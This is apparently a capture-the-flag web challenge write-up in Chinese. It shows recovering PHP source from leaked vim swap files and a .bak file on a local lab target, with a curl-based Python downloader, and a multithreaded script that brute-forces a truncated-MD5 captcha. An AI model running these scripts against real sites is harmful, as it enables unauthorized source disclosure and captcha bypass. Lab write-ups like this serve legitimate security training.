 尝试把`.index.php.swp`, `.config.php.swp`, `.user.php.swp`下载下来

使用`vim -r index.php`查看源码

审计源码在`index.php`中发现require `user.php`, 还会通过GET参数中的action require `views`目录中的 `delete|index|login|logout|phpinfo|profile|publish|register`, 其他参数都会显示欢迎语

在`user.php`中发现需要下载`user.php.bak`, `user.php`中require `config.php`

```python
#coding=utf-8
# import requests
import urllib
import os
os.system('mkdir source')
os.system('mkdir source/views')
file_list=['.index.php.swp','.config.php.swp','.user.php.swp','user.php.bak','views/.delete.swp','views/.index.swp','views/.login.swp','views/.logout.swp','views/.profile.swp','views/.publish.swp','views/.register.swp']
part_url='http://127.0.0.1:11027/'
for i in file_list:
    url=part_url+i
    print('download %s ' % url)
    os.system('curl '+url+'>source/'+i)
```

使用`register`注册

## 破解md5验证码

### 多线程破解

```python
import hashlib
from multiprocessing.dummy import Pool as ThreadPool

# MD5截断数值已知 求原始数据
# 例子 substr(md5(captcha), 0, 6)=60b7ef

def md5(s):  # 计算MD5字符串
    return hashlib.md5(str(s).encode('utf-8')).hexdigest()


keymd5 = 'f04f0'   #已知的md5截断值
md5start = 0   # 设置题目已知的截断位置
md5length = 5

def findmd5(sss):    # 输入范围 里面会进行md5测试
    key = sss.split(':')
    start = int(key[0])   # 开始位置
    end = int(key[1])    # 结束位置
    result = 0
    for i in range(start, end):
        # print(md5(i)[md5start:md5length])
        if md5(i)[md5start:md5length] == keymd5:            # 拿到加密字符串
            result = i
            print(result)    # 打印
            break


list=[]  # 参数列表
for i in range(1):   # 多线程的数字列表 开始与结尾
    list.append(str(10000000*i) + ':' + str(10000000*(i+1)))
pool = ThreadPool()    # 多线程任务
pool.map(findmd5, list) # 函数 与参数列表
pool.close()
```